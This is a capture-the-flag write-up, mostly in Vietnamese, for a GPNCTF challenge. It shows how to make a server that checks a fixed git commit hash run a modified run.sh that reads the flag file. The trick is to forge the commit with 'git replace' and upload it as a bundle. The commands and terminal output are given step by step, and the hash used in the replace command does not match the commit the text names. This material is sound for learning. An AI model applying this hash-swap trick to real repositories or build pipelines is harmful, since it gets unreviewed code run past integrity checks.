


# Mô tả

In the spirit of open source I publish my code, though I wish there existed a better version control than project-latest-final-final-2.tar.zst.

I love checking out what other people do with my code, but in this cruel world you need to take precautions.

Therefore, I only check out the good code I have written myself.

Looking forward to your submissions!

# Phân tích

Decompress file `project-latest-final-final-2.tar.zst`

```bash
unzstd project-latest-final-final-2.tar.zst
tar -xf project-latest-final-final-2.tar
```

Ra một file git `check-this-out` trong đó có file `run.sh` và chút nữa khi phân tích `main.py` của server sẽ biết được ta phải sử dụng file bash này để đọc flag

**run.sh**

```bash
#!/usr/bin/env bash

echo "Well hello, friends :^)"
```


**main.py**

Nói chung là server sẽ yêu cầu người dùng upload lên một file `.bundle` từ cái git `check-this-out` và sau đó kiểm tra hash của nó có bằng **36a168b7942eedf14b33912db25357cb254457e9** hay không, nếu bằng thì sẽ chạy `run.sh`

**Quy trình xác thực**

```
mkdir local
git clone --mirror your-bundle.bundle local/.git
cd local
git config --bool core.bare false
git rev-list 36a168b7942eedf14b33912db25357cb254457e9
git checkout 36a168b7942eedf14b33912db25357cb254457e9 && ./run.sh
```

Thử không chỉnh sửa gì trong file git hết và tạo một file bundle tải lên server xem như nào

```
git bundle create test.bundle --all
```

`--all` để bundle toàn bộ cái repo

**Gửi test.bundle**



Đúng intended rồi, giờ sẽ phải làm như nào đó để không thay đổi hash mà vẫn commit được cái `run.sh` đọc flag lên server

**Chỉnh sửa run.sh**

```bash
#!/usr/bin/env bash

cd /
ls
pwd 
file flag
cat flag
```

Kiểm tra commit gốc được checkout là gì, ở đây là:

```bash
$ git log --oneline --graph
* 36a168b (HEAD -> master) Initial commit
```

Chỉnh lại `run.sh` sau đó `git add và commit`

```bash
┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ vim run.sh

┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ git add run.sh

┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ git commit -m lol
[master a59ed5d] lol
 1 file changed, 2 insertions(+)

┌──(nam㉿DESKTOP-NF3DDH9)-[/mnt/c/Users/admin/Desktop/check-this-out/check-this-out]
└─$ git log
commit a59ed5d13c5179d3f6f8607e4829b01ca8620098 (HEAD -> master)
Author: ndhnam13 <namna9921234@gmail.com>
Date:   Tue Jun 24 18:42:24 2025 +0700

    lol

commit 36a168b7942eedf14b33912db25357cb254457e9
Author: I-Al-Istannen <i-al-istannen@users.noreply.github.com>
Date:   Sat Jun 7 20:42:38 2025 +0200

    Initial commit
```

Có thể thấy commit mới là `a59ed5d13c5179d3f6f8607e4829b01ca8620098`

Sau đó ta có thể lợi dụng lệnh `git replace` để đặt commit `36a168b7942eedf14b33912db25357cb254457e9` bằng với `a59ed5d13c5179d3f6f8607e4829b01ca8620098`

```bash
$ git replace 36a168b7942eedf14b33912db25357cb254457e9 b2d39fa7caf8c5fff19724e90df37925cde319ba
```

Sau đó tạo lại bundle

```bash
$ git bundle create flag.bundle --all
```

Nhờ `git replace`, nội dung thật sự được ghi vào bundle sẽ là commit `a59ed5d13c5179d3f6f8607e4829b01ca8620098`, nhưng vẫn gán hash là `36a168b7942eedf14b33912db25357cb254457e9`

**Lưu ý nếu muốn chỉnh sửa `run.sh` nhiều lần để kiểm tra payload thì sau mỗi khi commit sẽ phải xoá file trong `.git/refs/replace` rồi mới `git replace` lần nữa**

# Flag

Gửi `flag.bundle` lên server



`GPNCTF{8raNcH,tA6,c0mm17, 8R4nCh,taG,C0MMIt, IS The WAy of THe GIT}`